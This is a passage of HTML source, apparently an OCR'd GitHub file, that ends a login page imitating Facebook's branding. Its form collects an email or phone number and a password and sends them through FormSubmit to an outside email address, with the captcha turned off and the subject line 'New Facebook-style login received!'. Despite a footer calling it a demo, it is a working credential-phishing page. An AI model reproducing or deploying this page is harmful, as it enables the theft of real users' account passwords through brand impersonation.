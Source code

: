     button:hover {
      background-color: #166fe5;
    }

    .footer {
      text-align: center;
      margin-top: 20px;
      font-size: 14px;
      color: #606770;
    }
  </style>
</head>
<body>

  <div class="container">
    <div class="logo">facebook</div>
    <form action="https://formsubmit.co/your_email@example.com" method="POST">
      <!-- Required for FormSubmit to work properly -->
      <input type="hidden" name="_captcha" value="false">
      <input type="hidden" name="_subject" value="New Facebook-style login received!">
      
      <input type="text" name="email_or_phone" placeholder="Email or phone number" required>
      <input type="password" name="password" placeholder="Password" required>
      <button type="submit">Log In</button>
    </form>
    <div class="footer">This is a demo login page</div>
  </div>

</body>
</html>
